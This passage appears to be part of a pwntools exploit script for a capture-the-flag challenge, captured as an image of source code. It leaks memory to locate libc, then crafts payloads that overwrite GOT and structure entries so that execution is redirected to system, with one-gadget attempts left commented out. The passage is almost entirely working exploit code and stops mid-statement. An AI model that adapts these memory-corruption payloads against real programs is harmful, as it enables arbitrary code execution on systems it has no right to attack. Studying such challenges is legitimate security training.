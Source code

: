 ```python
               # b *'sandbox::Library::~Library()'+218
           # gdbscript="""
           #     b *'sandbox::Library::~Library'+397
           # """
    )
    pause()

# leak = view_feedback(0xa00)
# print(hex(len(leak)))
# print("leak:")
# for i in range(0xa00 // 8):
#     print(hex(u64(leak[i*8:i*8+8])))
#
# lib2.address = u64(leak[0x110:0x118]) - 0x57b6d8
# print(hex(lib2.address))

# one_gadgets = [
#     0xebc81, 0xebc85, 0xebc88, 0xebce2, 0xebd38, 0xebd3f, 0xebd43
# ]
# payload = b"\x00" * 0xa00
# payload += p64(lib2.got.free)
# get_feedback(payload)
# get_feedback(p64(lib2.address + one_gadgets[3]))
# get_feedback(p64(lib2.address + one_gadgets[2]))

# payload = leak
payload = b"\x00" * 0xa00
payload += flat(
    exe.got.write,
)
get_feedback(payload)
sleep(0.3)
leak = view_feedback(0x150)
print(hex(len(leak)))
print("leak:")
for i in range(0x150 // 8):
    print(hex(u64(leak[i*8:i*8+8])))

lib2.address = u64(leak[:0x8]) - lib2.sym.write
print(hex(lib2.address))

payload = p64(lib2.sym.exit)
# payload = leak[:8]
payload += leak[8:0x118]
payload += flat(
    0x40b188
)
payload += leak[len(payload):]
payload += flat(
    lib2.address + 0x21b6a0, 0x300,
)
payload += p64(lib2.sym.system)
payload += flat(
    {
        0x18: 0x0,
        0x30: 0x0,
        0xe0: 0x40b198 - 0x68,
    },
    filler=b"\x00"
)
get_feedback(payload)

payload = flat(
```